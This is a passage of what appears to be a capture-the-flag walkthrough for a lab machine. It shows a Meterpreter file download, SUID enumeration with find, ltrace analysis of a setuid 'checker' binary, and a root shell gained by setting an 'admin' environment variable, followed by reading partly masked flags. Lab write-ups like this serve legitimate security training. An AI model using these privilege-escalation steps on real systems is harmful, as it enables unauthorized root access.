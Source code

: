 ```bash
download /home/bjoel/Billy_Joel_Termination_May20-2020.pdf
```

![](.gitbook/assets/image-20230515125200057.png)

```bash
shell

ls /media/usb
ls: cannot open directory '/media/usb': Permission denied
```

---

## Privilege Escalation

```bash
find / -perm -u=s -type f 2>/dev/null
```

![](.gitbook/assets/image-20230515123429464.png)

Try to run `/usr/sbin/checker`

```bash
/usr/sbin/checker
	Not an Admin
```

If `ltrace` is present on the machine use it. If not, download the file with Meterpreter and check it in Kali with `ltrace` or `Ghidra`.

```bash
ltrace /usr/sbin/checker
```

```bash
getenv("admin") 		= nil
puts("Not an Admin") 	= 13
Not an Admin
+++ exited (status 0) +++
```

The binary requires the `admin` environment variable to be declared

```bash
export admin=thm
```

```bash
/usr/sbin/checker

# root shell
```

![root shell](.gitbook/assets/image-20230515125449356.png)

```bash
find / -type f -iname user.txt 2>/dev/null
cat /media/usb/user.txt
c8421***********************


find / -type f -iname root.txt 2>/dev/null
cat /root/root.txt
9a0b***********************
```

------

